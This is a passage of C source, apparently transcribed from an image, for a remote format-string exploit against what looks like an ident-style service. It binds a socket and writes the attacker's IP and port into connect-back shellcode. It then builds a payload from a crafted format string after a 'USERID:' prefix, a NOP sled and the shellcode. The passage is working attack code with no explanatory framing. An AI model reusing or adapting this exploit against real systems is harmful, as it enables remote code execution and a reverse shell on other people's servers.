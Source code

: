
    /* Local address */
    if ( (lsock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
        perror("** socket()");
        exit(EXIT_FAILURE);
    }

    if (bind(lsock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
        perror("** bind()");
        exit(EXIT_FAILURE);
    }

    /* Connect back address */
    {
        int len = sizeof(struct sockaddr_in);
        struct sockaddr_in paddr;
        if (getsockname(lsock, (struct sockaddr *)&paddr, &len) < 0) {
            perror("** getsockname()");
            exit(EXIT_FAILURE);
        }
        (*(u_short *)&tgt->code[PORT_INDEX]) = paddr.sin_port;
        (*(u_int *)&tgt->code[IP_INDEX]) = paddr.sin_addr.s_addr;

        printf("local addr: %s:%u\n", inet_ntoa(paddr.sin_addr),
            ntohs(paddr.sin_port));

        if (!(paddr.sin_port & 0xff00) || !(paddr.sin_port & 0xff00) ||
            !(paddr.sin_addr.s_addr & 0xff000000) ||
            !(paddr.sin_addr.s_addr & 0x00ff0000) ||
            !(paddr.sin_addr.s_addr & 0x0000ff00) ||
            !(paddr.sin_addr.s_addr & 0x000000ff)) {
            fprintf(stderr, "** Zero byte(s) in connect back address\n");
            exit(EXIT_FAILURE);
        }
    }

    /*
     * We insert a '\n' to control the size of the data
     * passed on the the vulnerable function.
     * But all 512 bytes are read into a static buffer, so we
     * just add the shellcode after '\n' to store it.
     */
    if (tgt->type == FMTSTR) {
        if (!ret)
            ret = tgt->bufaddr+260;

        if (mkfmtstr(tgt, ret, fmt, sizeof(fmt)) < 0)
            exit(EXIT_FAILURE);
        memset(buf, 0x90, sizeof(buf));
        memcpy(&buf[BUFSIZE-strlen(tgt->code)-4],
            tgt->code, strlen(tgt->code)+1);
        i = snprintf(buf, sizeof(buf), "a: USERID: a: %s\n", fmt);
        if (buf[i] == '\0') buf[i] = 0x90;
    }
    else {
